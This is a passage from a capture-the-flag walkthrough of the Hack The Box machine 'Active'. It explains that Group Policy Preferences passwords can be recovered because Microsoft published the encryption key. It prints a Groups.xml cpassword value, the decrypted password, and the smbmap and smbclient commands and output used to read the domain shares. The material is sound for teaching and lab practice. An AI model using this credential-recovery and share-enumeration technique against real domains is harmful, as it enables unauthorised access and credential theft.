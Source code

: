 Group policy is applied to computers and users by the Group Policy client-side extensions. Group Policy Preferences are client side preferences that are saved for a user and as such are extensions of Group Policy. They determine things like environment variables, drive mappings, folder settings, configured printers, start menu, etc. Passwords used to be able to be stored in Group Policy Preference files and these were encrypted using a key that has subsequently become widely available after Microsoft publicly disclosed it \(https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be\).

Looking at the Groups.xml file, we see

```markup
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
 <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" 
       name="active.htb\SVC_TGS" image="2" 
       changed="2018-07-18 20:46:06" 
       uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
 <Properties action="U" newName="" fullName="" 
             description="" 
             cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+
             ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" 
             changeLogon="0" noChange="1" neverExpires="1" 
             acctDisabled="0" userName="active.htb\SVC_TGS"/>
 </User>
</Groups>
```

The file contains a password hash \(cpassword\) for the user SVC\_TGS. You can decrypt this using a utility gpp-decrypt.py \(https://github.com/t0thkr1s/gpp-decrypt/blob/master/gpp-decrypt.py\) or by using cryptii.com as shown below.

![Graphical user interface, application, Teams

Description automatically generated](../.gitbook/assets/2%20%287%29.png)

Decrypting the cpasssword from Groups.xml. The text is base64 decoded and then decrypted using AES-256 using the published key.

This gives us the password for svc\_tgs of GPPstillStandingStrong2k18 \(a commentary on the vulnerability that still existed in 2018\). We now have read access to the Users directory and can get the user flag in c:\Users\SVC\_TGS\Desktop\users.txt by using smbclient.

```bash
┌─[rin@parrot]─[~/boxes/Active]
└──╼ $smbmap -H active.htb -u 'svc_tgs' -p GPPstillStandingStrong2k18
[+] IP: active.htb:445 Name: unknown
 Disk Permissions Comment
 ---- ----------- -------
 ADMIN$ NO ACCESS Remote Admin
 C$ NO ACCESS Default share
 IPC$ NO ACCESS Remote IPC
 NETLOGON READ ONLY Logon server share
 Replication READ ONLY
 SYSVOL READ ONLY Logon server share
 Users READ ONLY
┌─[✗]─[rin@parrot]─[~/boxes/Active]
└──╼ $smbclient -U 'svc_tgs' //active.htb/users
Enter WORKGROUP\svc_tgs's password:
Try "help" to get a list of possible commands.
smb: \> dir
 . DR 0 Sat Jul 21 22:39:20 2018
 .. DR 0 Sat Jul 21 22:39:20 2018
 Administrator D 0 Mon Jul 16 18:14:21 2018
 All Users DHSrn 0 Tue Jul 14 13:06:44 2009
 Default DHR 0 Tue Jul 14 14:38:21 2009
 Default User DHSrn 0 Tue Jul 14 13:06:44 2009
 desktop.ini AHS 174 Tue Jul 14 12:57:55 2009
```